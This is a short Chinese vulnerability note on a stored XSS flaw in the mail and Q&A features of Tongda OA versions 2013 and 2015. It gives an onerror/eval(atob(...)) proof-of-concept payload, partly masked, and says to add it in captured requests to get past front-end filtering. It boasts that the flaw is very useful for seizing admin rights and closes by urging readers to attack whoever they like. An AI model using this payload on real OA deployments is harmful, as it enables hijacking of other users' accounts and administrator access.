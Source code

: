 ```yaml
---
title: "通达oa xss"
id: zhfly3338
---
```


# 通达oa xss

## 一、漏洞简介

## 二、漏洞影响

2013、2015版本

## 三、复现过程

发邮件的地方、问题问答的地⽅都存在XSS，可获取他人账号权限。⼀般情况下，OA会有前端进行过滤， 所以抓包时候去添加payload，之后会对事件进行过滤，所以使用

poc

```
<img src=x onerror=eval(atob('cz1jcmVXXXXXytNYXRoXXXXXXXXhbmRvbSgp'))> 
```

![image](../img/31be5226e8171a6c4cb247a5a873c79b.png)

![image](../img/dc09de36da29dd67cf327c7ebb28f297.png)

这个漏洞获取admin权限⾮常好用。想X谁X谁!
